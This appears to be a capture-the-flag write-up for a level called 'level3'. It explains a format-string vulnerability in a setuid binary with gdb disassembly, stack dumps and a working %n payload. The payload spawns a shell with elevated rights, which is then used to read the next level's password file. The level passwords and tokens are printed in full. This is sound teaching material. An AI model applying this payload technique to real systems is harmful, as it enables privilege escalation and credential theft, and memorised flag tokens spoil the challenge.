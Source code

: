 # Level3 - Format string vulnerability - Basic write

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level3 | `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02` |
| level4 | `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

1. Connect to `level3` user

```shell
ssh level3@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```

Notice there is a binary with level3 setuid and setgid.

2. Debug level3

Execute level3

```shell
./level3
(stdin) abcdef
> abcdef
```

Seems to be like level2.

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x080484a4  v
  0x0804851a  main
  (...)
```

```shell
gdb-peda$ pdisas main
  0x0804851a <+0>:     push   ebp
  0x0804851b <+1>:     mov    ebp,esp
  0x0804851d <+3>:     and    esp,0xfffffff0
  0x08048520 <+6>:     call   0x80484a4 <v>                     # call v()
  0x08048525 <+11>:    leave
  0x08048526 <+12>:    ret

gdb-peda$ pdisas v
  0x080484a4 <+0>:     push   ebp
  0x080484a5 <+1>:     mov    ebp,esp
  0x080484a7 <+3>:     sub    esp,0x218
  0x080484ad <+9>:     mov    eax,ds:0x8049860                  # 0x8049860 <stdin@@GLIBC_2.0>
  0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax           # buffer starts at esp+0x8
  0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200         # fgets maxLength = 0x200 (512)
  0x080484be <+26>:    lea    eax,[ebp-0x208]
  0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
  0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>             # call fgets(buf, 0x200, stdin)
  0x080484cc <+40>:    lea    eax,[ebp-0x208]
  0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
  0x080484d5 <+49>:    call   0x8048390 <printf@plt>            # call printf(buf)
  0x080484da <+54>:    mov    eax,ds:0x804988c
  0x080484df <+59>:    cmp    eax,0x40                          # if $eax == 0x40 (64) ?
  0x080484e2 <+62>:    jne    0x8048518 <v+116>                 # if != jump leave
  0x080484e4 <+64>:    mov    eax,ds:0x8049880                  # 0x8049880 <stdout@@GLIBC_2.0>
  0x080484e9 <+69>:    mov    edx,eax
  0x080484eb <+71>:    mov    eax,0x8048600                     # 0x8048600:       "Wait what?!\n"
  0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
  0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc           # nmemb=12
  0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1           # size=1
  0x08048504 <+96>:    mov    DWORD PTR [esp],eax
  0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>            # call fwrite("Wait what?!\n", 1, 12, stdout)
  0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d         # 0x804860d:       "/bin/sh"
  0x08048513 <+111>:   call   0x80483c0 <system@plt>            # call system("/bin/sh")
  0x08048518 <+116>:   leave
  0x08048519 <+117>:   ret
```

We can see, there is a function `fgets`. In the previous level, `gets` function was the vulnerability. As `fgets` is protected with a `size` parameter to control the number of chars readed, the function is safe.

Then there is an unsafe `printf` syscall. Unsafe because the argument `buf` is directly passed without any format string.

Using printf specifiers we can use this buffer to read and write the stack. This vulnerability is called "Format string attack".

```bash
~/level3 <<< %p
0x200 # print first content after printf argument

~/level3 <<< "%08x.%08x.%08x\n"
> 00000200.b7fd1ac0.b7ff37d0\n # print 3 addresses after printf argument

gdb-peda$ b printf
gdb-peda$ run <<< AAAA
[------------------------------------stack-------------------------------------]
0000| 0xbffff42c --> 0x80484da (<v+54>: mov    eax,ds:0x804988c)
0004| 0xbffff430 --> 0xbffff440 ("AAAA\n")
0008| 0xbffff434 --> 0x200
0012| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2288
0016| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0020| 0xbffff440 ("AAAA\n")
0024| 0xbffff444 --> 0xb7e2000a
0028| 0xbffff448 --> 0x1
[------------------------------------------------------------------------------]
```

We can see an offset of 4 between the printf argument (`0xbffff430`) and the real address of the buffer (`0xbffff440`).

```bash
/level3 <<< 'AAAA.%4$p'
AAAA.0x41414141
```

The specifier `%4$p` prints the 4th address before the printf argument, which contains our buffer string

But the goal is to replace the value of the global variable `m` with 0x40 (64).

To do that, we will use the specifier `%n`. According to the printf() man page, here is what %n should do :

> The number of characters written so far is stored into the integer indicated by the int \* (or variant) pointer argument. No argument is converted.

Basically, it means that `%n` will write the size of our input at the address pointed by `%n`. For example, the following input : `AAAA%n`, means that we will write the value 4 (because the size of "AAAA" equals 4) at the address pointed by `%n`.

The address of the global `m` is `0x0804988c` in big endian.

We have to have a format string like: `<ADDRESS_TO_WRITE_ON> + <PADDING> + "%n"`

```
=> `"\x8c\x98\x04\x08" + "A" * (64 - 4) + "%4$n"`
            |             |                |________ %n specifier with offset of 4
            |             |_________________________ padding of size 60 to write the value 64
            |_______________________________________ m address
```

Lets try

```shell
gdb-peda$ b*v+54
gdb-peda$ run < <(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"')

[------------------------------------stack-------------------------------------]
0000| 0xbffff430 --> 0xbffff440 --> 0x804988c --> 0x40 ('@')
0004| 0xbffff434 --> 0x200
0008| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0016| 0xbffff440 --> 0x804988c --> 0x40 ('@')
[------------------------------------------------------------------------------]

gdb-peda$ continue
> Wait what?!
  [New process 5560]
  process 5560 is executing new program: /bin/dash
```

Great! `0xbffff440` has now the value 0x40, and the terminal has been created

We don't have the level4 rights with gdb. Lets try directly with the binary to access the shell:

```bash
(echo `python -c 'print "\x8c\x98\x04\x08" + "%60x" + "%4$n"'` ; cat) | ~/level3
> Wait what?!

$ id
> uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)

$ cat /home/user/level4/.pass
> b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)

- [Format string attack - Introduction](https://owasp.org/www-community/attacks/Format_string_attack)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)
- [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man system](https://linux.die.net/man/3/system)
